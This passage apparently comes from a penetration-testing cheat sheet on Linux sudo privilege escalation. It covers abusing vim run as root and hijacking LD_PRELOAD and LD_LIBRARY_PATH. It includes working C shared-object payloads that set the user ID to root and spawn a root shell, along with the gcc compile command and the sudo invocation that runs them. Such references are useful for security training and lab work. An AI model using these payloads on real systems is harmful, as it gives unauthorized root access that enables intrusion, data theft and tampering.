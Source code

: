 In this example the user `zweilos` can run `vim` as `root`. Any files can now be read or written to, for example adding an SSH key into the `/root/.ssh` directory. `vim` can also be used to gain a root shell or run programs with `!<command>`.

### LD\_PRELOAD

**LD\_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library, including the C runtime library (libc.so). This is called preloading a library.

1. Check if `LD_PRELOAD` is explicitly defined in the `/etc/sudoers` file:

```bash
#Check in /etc/sudoers for a line with env_keep += LD_PRELOAD
Defaults        env_keep += LD_PRELOAD

# or check with sudo -l
user@debian:~$ sudo -l 
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
```

&#x20; 2\. Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

&#x20; 3\. Execute any binary along with the LD\_PRELOAD shared object to spawn a shell : `sudo LD_PRELOAD=</path/to/malicious/shell.so> <program>`

### **LD\_LIBRARY\_PATH**&#x20;

**LD\_LIBRARY\_PATH** provides a list of directories where shared libraries are searched for first.

Run `ldd` against the any program that you can execute as `sudo` to see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

Create a shared object with the same name as one of the listed libraries (ex. `libcrypt.so.1`) using the code located at `/home/user/tools/sudo/library_path.c`:

```c
/* Library_path.c */

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
